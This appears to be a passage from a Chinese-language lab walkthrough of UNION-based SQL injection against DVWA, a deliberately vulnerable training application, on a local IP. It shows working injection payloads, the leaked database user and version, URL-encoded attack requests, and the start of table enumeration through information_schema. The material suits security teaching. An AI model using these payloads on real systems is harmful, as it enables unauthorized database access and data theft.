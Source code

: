 - user_id = '-1'

```
SELECT first_name, last_name FROM users WHERE user_id = '-1' UNION SELECT 1,CONCAT_WS(CHAR(124),user(),database(),version());

mysql> SELECT first_name, last_name FROM users WHERE user_id = '-1' UNION SELECT 1,CONCAT_WS(CHAR(124),user(),database(),version());
+------------+---------------------------------------------------+
| first_name | last_name                                         |
+------------+---------------------------------------------------+
| 1          | root@localhost|dvwacn|5.5.41-0ubuntu0.14.04.1-log |
+------------+---------------------------------------------------+
1 row in set (0.00 sec)

mysql>
```

url中的查询结果

- user_id = '1'

http://192.168.56.80/dvwacn/vulnerabilities/sqli/?id=1%27+UNION+SELECT+1%2CCONCAT_WS%28CHAR%28124%29%2Cuser%28%29%2Cdatabase%28%29%2Cversion%28%29%29%23%27&Submit=%C8%B7%B6%A8#

```
ID: 1' UNION SELECT 1,CONCAT_WS(CHAR(124),user(),database(),version())#'
First name: admin
Surname: admin

ID: 1' UNION SELECT 1,CONCAT_WS(CHAR(124),user(),database(),version())#'
First name: 1
Surname: root@localhost|dvwacn|5.5.41-0ubuntu0.14.04.1-log
```

- user_id = '-1'

http://192.168.56.80/dvwacn/vulnerabilities/sqli/?id=-1%27+UNION+SELECT+1%2CCONCAT_WS%28CHAR%28124%29%2Cuser%28%29%2Cdatabase%28%29%2Cversion%28%29%29%23%27&Submit=%C8%B7%B6%A8#

```
ID: -1' UNION SELECT 1,CONCAT_WS(CHAR(124),user(),database(),version())#'
First name: 1
Surname: root@localhost|dvwacn|5.5.41-0ubuntu0.14.04.1-log
```

url解码后

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli/?id=-1' UNION SELECT 1,CONCAT_WS(CHAR(124),user(),database(),version())#'&Submit=确定
```


##获取当前数据库所有表



http://192.168.56.80/dvwacn/vulnerabilities/sqli/?id=-1%27%20UNION%20SELECT%201,concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%20%23&Submit=%C8%B7%B6%A8
